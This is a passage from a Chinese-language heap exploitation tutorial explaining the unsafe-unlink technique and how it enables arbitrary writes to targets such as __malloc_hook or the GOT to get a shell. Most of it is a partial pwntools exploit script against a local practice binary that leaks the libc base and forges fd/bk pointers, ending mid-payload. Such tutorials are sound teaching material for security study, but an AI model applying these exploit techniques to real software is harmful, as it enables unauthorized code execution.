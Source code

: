 &emsp;&emsp;<font size=2>再次使用"重新编辑笔记功能"，效果就等同于向0x6161616161616161地址处写入任意数据了，如果这个不是0x6161616161616161而是一些敏感的地址呢？比如\_\_malloc_hook？比如got表？getshell就变得非常简单了:D</font></br>

&emsp;&emsp;<font size=2>`unsafe-unlink`的套路大多如此，一般都是直接打记录堆地址的全局变量数组了，所以没有啥另外的甜品技术。所以直接用这个技术打我们的漏洞大礼包程序来试试getshell吧，利用pwntools脚本如下：</font></br>

```python
from pwn import *

p=process('./demo')

context.log_level=1

sd=lambda x: p.send(x)
sl=lambda x: p.sendline(x)
rv=lambda x: p.recvuntil(x)
sa=lambda a,x: p.sendafter(a,x)
sla=lambda a,x: p.sendlineafter(a,x)

menu='Choice:'

def add(size,content=''):
    sla(menu,'1')
    sla('input your size:',str(size))
    sla('input your message:',content)

def delete(index):
    sla(menu,'2')
    sla('input the index: ',str(index))

def edit(index,content):
    sla(menu,'3')
    sla('input the index: ',str(index))
    sla('input your content:',content)

def show(index):
    sla(menu,'4')
    sla('input the index: ',str(index))

chunk_link=0x6020c0

#=========================
# leak libc_base

add(0x100)
add(0x100)
delete(0)
show(0)
rv('content:')
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4b78
success("libc base:"+hex(libc_base))
delete(1)

#===================================
# now exploit
add(0x100)      #2
add(0x100)      #3
add(0x20)       #4

# fake the fd and bk to chunk_link
payload=p64(0)*2+p64(chunk_link-0x18)+p64(chunk_link-0x10)
payload=payload.ljust(0x100,'a')

#edit nextchunk's pre_size and prev_inuse
payload+=p64(0x100)+p64(0x110)
```